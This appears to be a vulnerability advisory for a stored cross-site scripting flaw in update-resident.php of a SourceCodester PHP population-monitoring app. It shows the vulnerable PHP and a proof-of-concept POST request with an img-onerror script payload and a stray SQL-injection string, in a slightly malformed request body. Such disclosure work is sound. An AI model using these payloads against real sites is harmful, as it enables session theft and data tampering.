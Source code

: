# SOURCECODESTER / Barangay Population System - update-resident.php STORED XSS

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17109/barangay-population-monitoring-system-using-php-mysql-and-chartjs-source-code.html

## Affected Component
> /endpoint/update-resident.php

## Code
```php
if (isset($_POST['full_name'], $_POST['address'], $_POST['contact_number'])) {
        $residentID = $_POST['tbl_resident_id'];
        $fullName = $_POST['full_name'];
        $address = $_POST['address'];
        $contactNumber = $_POST['contact_number'];

        try {
            $checkStmt = $conn->prepare("SELECT full_name FROM tbl_resident WHERE full_name = :full_name");
            $checkStmt->bindParam(":full_name", $fullName, PDO::PARAM_STR);
            $checkStmt->execute();
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /endpoint/update-resident.php HTTP/1.1
Host: [REDACTED]
Content-Type: application/x-www-form-urlencoded
Content-Length: 132

tbl_resident_id=1&full_name=%3e%3cimg%20src%3dx%20onerror%3dalert('NoChizPlZ')%3e&address=Purkok+1&contact_number=%28551%29+577-2147email=nochizplz%40nochizplz.com&password=nochizplz'+or+1%3d1+limit+1%23
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/aca77ced-34ee-42e1-976d-0534ba155d0c)
